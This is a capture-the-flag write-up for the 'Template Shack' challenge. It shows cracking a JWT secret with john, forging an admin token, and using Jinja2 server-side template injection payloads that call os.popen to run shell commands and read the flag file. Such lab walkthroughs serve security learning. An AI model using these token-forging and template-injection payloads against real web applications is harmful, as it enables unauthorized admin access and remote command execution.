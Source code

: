## Write up Template Shack

On the website we got a session-token and token that seems to be a jwt:
to get the secret we have to bruteforce the jwt, using john:

``echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.9SvIFMTsXt2gYNRF9I0ZhRhLQViY-MN7VaUutz9NA9Y" > jwt.hash``
To crack it:
``john jwt.hash -w=/usr/share/wordlists/rockyou.txt``
we get the secret as ``supersecret``
![b4120f50ec01db439c6b1a0b2e17f8f3.png](_resources/c7897f309d1b41bca6694b0c50fe6bb6.png)

Decoding it:
![677ce90eb3b8a89b93597677284bfdb0.png](_resources/edef173f1f924dd4bf4b9be989e5d2b4.png)



No we have to create a new token and sign it using the jwt_tool:

![e569e3c4d816e07a1b772e43a10ec4dd.png](_resources/27c86bb8667e43888b85f2fe27a54223.png)

Using this tool we can change guest for admin and sign it with the key:

![67ab31baeab4bf5345583493879465ab.png](_resources/0d09dd7005ed411fa6e80dab4dec1292.png)

now we have a jwt token with "admin" ``eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.Ykqid4LTnSPZtoFb11H+/2q+Vo32g4mLpkEcajK0H7I``
changing the token with this value gives us access to de admin panel:

![1b97e21508f7ed17c791a153c436aacb.png](_resources/cf524efaf471459a914df674074bf974.png)

I noticed that inside the admin template when a webpage doesnt exists it renders de endpoint on the 404, for example if I look for /admin/abt.html I got:

![d26a25bb83b73a84cb913901c4a06eaa.png](_resources/ee4ef6fa2e3149428fcd900e2f90cb41.png)

This added to the name of the challenge made me think about template injection and bingo:

![0ada9bdc9cc0f7636be6951b93d8ee7f.png](_resources/bc7b222a05394a07b2d0e41d87e9f0f7.png)

So there is probably python running on the backgroung as this is a feature of flask jinja so lest find it out with ``{{ [].__class__.__base__.__subclasses__() }}``:

![1a41206868d5c17e10b3a8cf7044e622.png](_resources/f164d7016bf643edaba7377899c1188b.png)

So now we just need to use the os library to read the flag:
``{{ request.application.__globals__.__builtins__}}}`` we can access the builtins so we will try to import the os with ``{ request.application.__globals__.__builtins__.__import__('os')}}``

![9ea482a3850c3e64e933167c48b47b7f.png](_resources/d3ff18b2a9f648c9a3e9e75fb19e4543.png)

Its time to find the flag.txt ``{{ request.application.__globals__.__builtins__.__import__('os').popen('find / -name flag.txt').read()}}``

![c1c780927a45638edfbabb212872c8e8.png](_resources/d7e17b2be5c141bc8fcee36137c945e4.png)

and finally cat the flag ``{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /home/user/flag.txt').read()}}``

![9c8b0fc698ca5267541f7672ddb4da4c.png](_resources/133eb074a30742abafd3d3486a1bd323.png)

And that was all!
